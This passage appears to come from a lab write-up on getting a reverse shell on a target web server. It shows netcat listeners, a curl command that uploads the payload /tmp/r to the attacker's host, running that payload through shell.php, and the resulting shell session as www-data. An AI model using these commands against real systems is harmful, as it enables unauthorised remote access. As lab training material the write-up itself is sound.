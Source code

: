We can confirm it really exists by trying to upload it back.

```
nc -lvp 9090
listening on [any] 9090 ...
```

This is especially the case we are not sure about write privileges.

```
curl http://192.168.139.130:9090 -T /tmp/r
```

![curl-T-put-back.png](/img/in-post/ine/curl-T-put-back.png)

The file is there.

Now the final step running it.

```
nc -lvp 53
listening on [any] 53 ...
```

在shell.php执行：

```
/tmp/r
```

We now have a reverse shell, but this prompt is a little bit convinient. Maybe we can make it more like a regular shell.

```
nc -lvp 53
listening on [any] 53 ...
connect to [192.168.139.130] from 0xluk3 [192.168.139.130] 45892
id
uid=33(www-data) gid=33(www-data) group=33(www-data)
whoami
www-data
```

The process upgrading reverse shell be more functional is called spawning a terminal. There is some differences between shell and terminal. For some basic understanding, a shell is a bit more functional, and an ideal terminal is like a remote ssh session.

